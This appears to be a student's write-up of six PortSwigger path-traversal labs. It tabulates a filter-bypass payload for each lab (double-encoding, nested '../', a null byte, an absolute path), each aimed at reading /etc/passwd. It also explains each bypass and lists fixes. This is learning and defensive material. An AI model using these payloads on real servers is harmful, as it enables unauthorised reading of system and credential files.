






# Path Traversal: 6 Filter Bypasses and How to Fix Each

**Platform:** PortSwigger Web Security Academy | **Tool:** Burp Suite (Proxy + Repeater)
**Target behavior:** the app loads product images via the `filename` parameter and reads the file from disk.

## Core idea
The app builds a file path from user input. If it doesn't validate it, `../` sequences walk out of the images folder to sensitive files like `/etc/passwd`.

```
/var/www/images/ + ../../../etc/passwd  ->  /etc/passwd
```

## Results
| # | Lab | Defense in place | Payload |
|---|---|---|---|
| 1 | Simple case | None | `../../../etc/passwd` |
| 2 | Absolute path bypass | Blocks `../` | `/etc/passwd` |
| 3 | Non-recursive stripping | Strips `../` once | `....//....//....//etc/passwd` |
| 4 | Superfluous URL-decode | Blocks `../`, decodes twice | `..%252f..%252f..%252fetc/passwd` |
| 5 | Start-of-path validation | Path must start with `/var/www/images` | `/var/www/images/../../../etc/passwd` |
| 6 | File extension validation | Must end in `.png` | `../../../etc/passwd%00.png` |

## Method (same for each lab)
1. Intercepted the image request in Burp Proxy and sent it to Repeater.
2. Replaced `filename` with the payload.
3. Confirmed the response contained `/etc/passwd` content.

## Proof of completion
| Lab | Screenshot |
|---|---|
| 1. Simple case |  |
| 2. Absolute path bypass |  |
| 3. Non-recursive stripping |  |
| 4. Superfluous URL-decode |  |
| 5. Validation of start of path |  |
| 6. File extension null byte |  |

<!-- TODO: add a Burp Repeater screenshot per lab showing your request + the /etc/passwd response -->

## Why each bypass worked
- **Lab 3:** the filter removes `../` one time, so `....//` becomes `../` after stripping.
- **Lab 4:** the server decodes the input again after the check, so `%252f` becomes `%2f` becomes `/`.
- **Lab 6:** the check sees `.png` at the end, but the null byte cuts the string when the file is opened.

## Impact
An attacker can read arbitrary files (config, credentials, source code) from the server.

## Recommended fixes
- Don't pass user input to filesystem APIs; map IDs to files instead.
- Use an allowlist of permitted filenames or characters.
- Canonicalize the path (resolve `..`, decode fully) and only then verify it starts with the base directory.
- Run the app with least privilege so sensitive files aren't readable.
